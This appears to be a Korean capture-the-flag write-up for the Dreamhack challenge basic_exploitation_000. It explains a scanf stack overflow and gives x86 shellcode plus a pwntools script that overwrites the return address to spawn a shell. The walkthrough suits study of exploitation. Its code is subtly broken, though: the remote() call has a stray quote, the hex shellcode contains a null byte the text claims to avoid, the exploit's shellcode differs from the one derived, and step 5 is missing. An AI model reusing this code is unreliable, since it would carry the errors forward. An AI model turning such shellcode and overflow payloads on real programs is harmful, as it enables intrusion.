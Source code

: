 ```yaml
---
title: basic_exploitation_000
description: Dreamhack [Wargame] - basic_exploitation_000
author: juhyeongkim
date: 2024-10-31 3:33:00 +0900
categories: [Dreamhack, Wargame]
tags: [Dreamhack, Wargame, Pwnable]
# toc: false
# comments: false
# math: true
# mermaid: true
# image:
#   path: 
#   lqip: 
#   alt: 
---
```


[문제 링크](https://dreamhack.io/wargame/challenges/2)

## 문제 풀이 방법

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);

    return 0;
}
```

위 코드를 보면 `initialize()` 함수에서 `SIGALRM`을 발생시키고 30초가 지나면 `alarm_handler` 함수가 수행되어 `exit(-1);`에 의해 프로그램이 종료된다.  
따라서 30초가 넘어가기 전에 해당 프로그램을 익스플로잇하여 쉘코드를 실행해야한다.

이 문제에서는 scanf 함수의 취약점을 통해 익스플로잇 할 수 있다. buf의 크기는 0x80(128)인데 141 바이트 크기의 string을 입력받고 있기 때문에, `sfp`와 `return address`를 덮어쓸 수 있다.  

```c
|-----------------------|   Low Address
|          buf          |
|          buf          |  <= 0x80
|          buf          |
|-----------------------|
|          SFP          |  <= 0x04
|-----------------------|
|          RET          |  <= 0x04
|-----------------------|   High Address
```

해당 코드에서 `printf("buf = (%p)\n", buf);`를 통해 buf의 주소를 print해주는데,

1. buffer의 주소를 return address에 넣고

2. buffer에는 쉘코드를 삽입하면 쉘을 얻을 수 있다.

<br>

## 쉘코드 작성

우리가 작성하고자 하는 쉘 코드는 `execve('bin/sh', 0, 0);`을 실행하여 쉘을 얻는 코드이다. 내용은 아래와 같다.

참고로 문제의 해당 실행 환경이 **i386(x86)** 이므로 32bit에 맞춰 어셈블리 코드를 작성해야한다. 

```
section .text
global _start

_start:
    xor eax,eax       ; 뒤에서 execve() 콜을 위해 eax를 0으로 초기화해주는 부분 (대부분 0이 들어있기 때문에 필수적이지는 않지만 권장)
    push 0x68732f     ; push 0x0068732f와 같다.
    push 0x6e69622f   ; 여기서 두번째 push때 4바이트 크기의 값이 아닌 3바이트 크기의 값이 push되면 끝에 0x00(Null String)이 추가되어 String이 이어지지 않고 끊기게 되니까 주의하자 ex) push 0x69622f
    mov ebx, esp      ; arg0 : ebx = 'bin/sh'
    xor ecx, ecx      ; arg1 : ecx = 0
    xor edx, edx      ; arg2 : edx = 0
    mov al, 0x8       ; mov eax, 0x8도 가능하지만, 더 효율적인 작업을 위해 al에 0x8 대입
    inc al            ; eax = 0x9
    inc al            ; eax = 0xa
    inc al            ; eax = 0xb
    int 0x80          ; execve call 발생
```

1. `eax`를 0으로 초기화 하는 이유는 뒤에서 eax가 아닌 `al`에 0x8을 대입하는데, al은 1바이트 공간이기 때문에 혹시라도 만약 al 상위 바이트가 0으로 초기화되어 있지 않으면 0x8이 아닌 다른 값으로 eax가 인식되기 때문에 `xor eax, eax`를 통해 0으로 초기화시켜준다.  
(만약 `mov al, 0x8`이 아닌 `mov eax, 0x8` 이라면 초기화할 필요 X)

2. 이후 push를 통해 esp에 값을 대입하는데 무조건 처음 push할 때, 나머지를 가져가고 이후 push에서는 4바이트 단위로만 push 해야 중간에 `0x00(NULL String)`이 삽입되지 않는다.

3. 32bit에서는 system call의 인자가 `rdi, rsi, rdx, ...` 순이 아닌 `ebx, ecx, edx, ...' 순이기 때문에 ebx에 esp값을 대입해주고 나머지 인자를 0으로 초기화시켜준다.

4. 32bit에서 execve의 system call 번호(eax 값)는 `0xb`인데, ASCII 값에서 `0xb`는 개행문자이므로, 이를 scanf에 입력하면 개행문자까지만 값을 받고 뒤의 값을 버리게 되기 때문에, 개행문자가 아닌 `mov al, 0x8`이후 `inc al`을 3번하여 eax에 `0xb`를 대입해야한다.

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbaFBgG%2FbtrUtG8jkdw%2FWx912dGg3GcIdDJL7ROEi1%2Fimg.png)


6. 32bit에서 systemcall은 `syscall`이 아닌 `int 0x80`으로 수행한다.

7. 이후 쉘코드를 얻어오면 다음 값을 갖는다. `\x31\xc0\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80`

<br>

## 익스플로잇 코드 작성

1. 프로그램 실행에서 buf의 주소를 print해주는데, 이 주소를 받아와서 return address에 삽입하기 위해 `buf_address`에 기록한다.    
여기서, `p.recvuntil(b'buf = (')`를 통해 받은 값은 String 값인데, 주소는 String 값이 아닌 정수 값으로 해석되기 때문에 이 String 값을 정수값으로 변경해준다. (String을 ASCII 값에 따라 정수로 해석하는 것이 아닌 정수 그 자체로 해석)
그리고 0xnnnnnnnn까지만 받아야 하므로 10byte만 받는다.

2. buf에는 shellcode를 입력하고, shellcode를 입력하고 **남은 buf 공간과**, **sfp**공간은 아무 값으로 채워서 payload에 전달해준다. (buf space + sfp space = 0x84)

3. 이후 return_address에 우리가 저장한 `buf_address`를 little endian byte string 배열로 packing해서 payload에 전달한다.

4. 공격 수행 후 쉘을 획득하면 `ls`와 `cat` 명령어를 통해 flag를 읽어온다.

익스플로잇 코드는 아래와 같다.

```py
from pwn import *

context.arch = "i386"
p = remote("host3.dreamhack.games", 21235")

p.recvuntil(b'buf = (')
buf_address = int(p.recv(10), 16) # 10byte만큼 recv후 받은 값을 16진수로 해석하여 buf_address에 저장

shellcode = b'\x31\xc0\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb8\x08\x00\x00\x00\x40\x40\x40\xcd\x80'

payload = shellcode + b'a'*(0x84-len(shellcode)) + p32(buf_address)

p.sendline(payload)

p.interactive()
```